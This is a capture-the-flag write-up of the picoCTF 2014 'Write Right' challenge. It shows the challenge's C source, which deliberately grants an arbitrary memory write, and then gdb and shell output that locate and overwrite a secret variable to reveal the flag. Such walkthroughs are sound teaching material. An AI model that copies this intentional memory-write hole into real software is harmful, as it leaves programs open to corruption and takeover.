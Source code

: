 ```yaml
---
layout: post
title: "picoCTF 2014 Write Right"
date: 2014-11-07 19:50:05 -0500
author: [et0x]
comments: true
categories: [picoctf]
---
```


### Solved by et0x

Write Right is a 50 point binary exploitation challenge.


> Can you change the secret? The binary can be found at /home/write_right/ on the shell server. The source can be found here. 

The source for the binary is the following:

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

unsigned secret = 0xdeadbeef;

int main(int argc, char **argv){
    unsigned *ptr;
    unsigned value;

    char key[33];
    FILE *f;

    printf("Welcome! I will grant you one arbitrary write!\n");
    printf("Where do you want to write to? ");
    scanf("%p", &ptr);
    printf("Okay! What do you want to write there? ");
    scanf("%p", (void **)&value);

    printf("Writing %p to %p...\n", (void *)value, (void *)ptr);
    *ptr = value;
    printf("Value written!\n");

    if (secret == 0x1337beef){
        printf("Woah! You changed my secret!\n");
        printf("I guess this means you get a flag now...\n");

        f = fopen("flag.txt", "r");
        fgets(key, 32, f);
        fclose(f);
        puts(key);

        exit(0);
    }

    printf("My secret is still safe! Sorry.\n");
}
```

So this program allows an arbitrary write at the location in memory you specify, in this case, the location of "secret".

Looks like all we need to do is find the address of the variable.  Let's throw it into gdb.

```bash
pico1139@shell:/home/write_right$ gdb -q write_right
Reading symbols from write_right...(no debugging symbols found)...done.
(gdb) p &secret
$1 = (<data variable, no debug info> *) 0x804a03c <secret>
```

Our address is **0x804a03c**. Lets put 1337beef into that location and see what happens.  

```
pico1139@shell:/home/write_right$ ./write_right
Welcome! I will grant you one arbitrary write!
Where do you want to write to? 804a03c
Okay! What do you want to write there? 1337beef
Writing 0x1337beef to 0x804a03c...
Value written!
Woah! You changed my secret!
I guess this means you get a flag now...
```
The flag is **arbitrary_write_is_always_right**

